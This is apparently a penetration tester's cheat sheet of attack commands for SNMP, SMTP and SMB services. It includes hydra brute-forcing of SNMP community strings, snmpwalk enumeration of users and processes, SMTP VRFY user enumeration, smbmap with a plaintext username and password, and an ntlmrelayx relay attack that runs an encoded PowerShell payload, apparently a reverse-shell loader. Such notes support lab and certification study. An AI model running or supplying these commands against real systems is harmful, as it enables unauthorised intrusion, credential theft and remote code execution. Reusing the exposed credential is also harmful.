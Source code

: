 brute-force comunity strings:
```
hydra -P /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt <IP> snmp
```

```
# Enumerating the Entire MIB Tree
> snmpwalk -c public -v1 192.168.204.149 
> snmpbulkwalk 10.10.11.136 -v 2c -c public > output2.txt 

# Enumerating Users:
> snmpwalk -c public -v1 192.168.204.149 1.3.6.1.4.1.77.1.2.25

# Enumerating Running Processes:
> snmpwalk -c public -v1 192.168.204.149 1.3.6.1.2.1.25.4.2.1.2

# Enumerating Open TCP Ports:
> snmpwalk -c public -v1 192.168.204.149 1.3.6.1.2.1.6.13.1.3

# Enumerating Installed Software:
> snmpwalk -c public -v1 192.168.204.149 1.3.6.1.2.1.25.6.3.1.2

snmpwalk -c public -v1 192.168.204.149 NET-SNMP-EXTEND-MIB::nsExtendObjects
snmpwalk -c public -v1 192.168.204.149 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```

attack:
https://shuciran.github.io/posts/SNMP-R&W-Community-Abuse/

another tool
```
onesixtyone
```

### SMTP

```
# connect
nc -nv <IP> 25
telnet <IP> 25

# command
VRFY <username>

# enumerate users
smtp-user-enum -M VRFY -U /usr/share/wordlists/users.txt -t <IP>
```
 
 sendmail version: https://www.exploit-db.com/exploits/4761
### SMB

auto enumerate throw smb
```
# add domain if there is
smbmap -H 192.168.247.159 -u guest -d ZEUS

python3 ~/offsec/tools/nullinux.py 192.168.156.175

# if there are creds
smbmap -H 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' 

# relay attack
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.247.159 -c "powershell -e JABjAGwAaQBlAG4AdAAg..."
```

